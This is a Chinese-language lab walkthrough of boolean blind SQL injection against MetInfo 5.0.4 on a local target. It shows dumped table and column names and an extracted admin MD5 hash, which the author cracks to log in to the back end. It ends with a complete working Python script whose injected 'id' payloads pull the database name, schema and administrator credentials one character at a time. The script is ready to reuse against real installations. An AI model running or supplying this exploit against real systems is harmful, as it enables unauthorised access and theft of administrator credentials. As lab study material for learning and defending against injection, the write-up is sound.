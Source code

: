 #  metinfo_5.0.4布尔盲注脚本实战

- 靶场用的metinfo_5.0.4

- 靶机ip：192.168.200.148

### 环境准备
- 实现该功能需要用`requests`模块、`string`模块，和注入点的url，并创建一个请求

![image-20240312121228527](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312121228527.png)

  

### 确定数据库长度

- 因为数据库的长度可能是1位也有可能是五十位，所以我们需要建立一个循环，让他测试一下到底有多少位，可以根据请求所返回的正文来判断是否正确，经过测试该页面的注入是数字型，所以无需引号闭合（该场景下，如果条件内容是正确会返回正常页面,错误则返回`404.html`。利用该情况可以实现布尔盲注）

![image-20240312123450210](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312123450210.png)

### 确定数据库名

- 经过上一步骤，已经得到该数据库名长度为七位，那么分析一下，数据库名可以由大写字母`A~Z`、小写字母`a~z`、数字`0~9`还有一些特殊符号，但是必须由字母开头。这些都是可打印字符，python中有一个`string`模块可以得到所有的可打印字符，那么只需要把这些字符跟数据库名的字符依次比较，即可得到数据库的名字，但是经过测试该页面并不能直接比较字符，所以把字符转为`ASCII`码值进行比较即可

  ![image-20240312124950144](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312124950144.png)

### 确定所有表名总长度

- 拿到数据库名后，就可以查询该数据库的所有表名一起是多长，跟查询数据库名长度一样，需要大量的尝试请求。不过这次的所有表名长度可就不止50了，设置为500，尝试一下。

![image-20240312131838354](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312131838354.png)

### 确定所有表名

- 知道了所有表名的总长度，那么只需要跟数据库名的方法一样，把注入语句更换一些便可以查询所有表的表名了

![image-20240312134416467](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312134416467.png)

- 所有表表名：

  ```
  [+] name of tables is :
  met_admin_column,met_admin_table,met_app,met_column,met_config,met_cv,met_download,met_feedback,met_flash,met_flist,met_img,met_index,met_job,met_label,met_lang,met_link,met_list,met_message,met_news,met_online,met_otherinfo,met_parameter,met_plist,met_product,met_skin_table,met_sms,met_visit_day,met_visit_detail,met_visit_summary
  
  ```

  

### 确定所有列名的长度

- 经过观察，`met_admin_table`这个表很可疑，先查询这个表中列名的长度，也是套用之前查表名长度的代码。但是经过测试，该语句不可以出现单引号，为了解决这个问题我们把表名转为十六进制的方式前面加个0x进行传递。

  ![image-20240312135539240](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312135539240.png)

### 确定所有列名

- 根据获取表名的代码套入列名的语句，即可获得列名

![image-20240312140847408](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312140847408.png)

- 所有列名

  ```
  [+] name of column is :
  id,admin_type,admin_id,admin_pass,admin_name,admin_sex,admin_tel,admin_mobile,admin_email,admin_qq,admin_msn,admin_taobao,admin_introduction,admin_login,admin_modify_ip,admin_modify_date,admin_register_date,admin_approval_date,admin_ok,admin_op,admin_issueok,admin_group,companyname,companyaddress,companyfax,usertype,checkid,companycode,companywebsite,lang,langok
  ```

  

### 获取账密长度

- 发现`admin_id`与`admin_pass`十分可疑，直接使用表名和列名查询该数据的长度，套用之前的基本格式即可

  ![image-20240312142429929](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312142429929.png)

  

### 获取账密内容

- 根据获取账密的长度，并套入获取列名的基本格式，更换查询语句即可得到管理员的账密了

![image-20240312143022404](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312143022404.png)

- 账密内容：

  ```
  [+]  admin_name_pass is :admin:e10adc3949ba59abbe56e057f20f883e
  ```

- 看到后面是密文，盲猜MD5值，直接去解码

  ![image-20240312144520646](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312144520646.png)

- 解密完直接登录后台验证，可以看到登录成功

  ![image-20240312144636863](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312144636863.png)



### 源码

```python
import requests
import string
url="http://192.168.200.148/MetInfo5.0.4/about/show.php"

req=requests.session()


# 确定数据库名的长度
for i in range(1,51):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select database()))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        dbname_len=i
        break
print(f"[+] The length of dbname is {i}")

# 确定数据库名
c_set=string.printable.strip()
db_name=""
for i in range(1,dbname_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select database()),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            db_name+=j
            break
print(f"[+] name of The Database is {db_name}")


# 确定所有表名的长度
for i in range(1,501):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        tablename_len=i
        break
print(f"[+] The length of tables name is {i}")


# 确定所有表的表名
c_set=string.printable.strip()
table_name=""
for i in range(1,tablename_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            print(f"\r[-] name of tables is :{table_name}",end="")
            table_name+=j
            break
print(f"\n\n[+] name of tables is :{table_name}")

# 确定所有表名的长度
for i in range(1,501):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6d65745f61646d696e5f7461626c65))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        columnname_len=i
        break
print(f"[+] The length of columns name is {i}")


# 确定所有表的表名
c_set=string.printable.strip()
column_name=""
for i in range(1,columnname_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6d65745f61646d696e5f7461626c65),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            print(f"\r[-] name of columns is :{column_name}",end="")
            column_name+=j
            break
print(f"\n\n[+] name of column is :{column_name}")

# 查询账密
for i in range(1,501):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select concat(admin_id,0x3a,admin_pass) from met_admin_table))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        admin_len=i
        break
print(f"[+] The length of admin is {i}")


# 确定账密
c_set=string.printable.strip()
admin_name_pass=""
for i in range(1,admin_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select concat(admin_id,0x3a,admin_pass) from met_admin_table),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            print(f"\r[-]  admin_name_pass is :{admin_name_pass}",end="")
            admin_name_pass+=j
            break
print(f"\n\n[+]  admin_name_pass is :{admin_name_pass}")


```

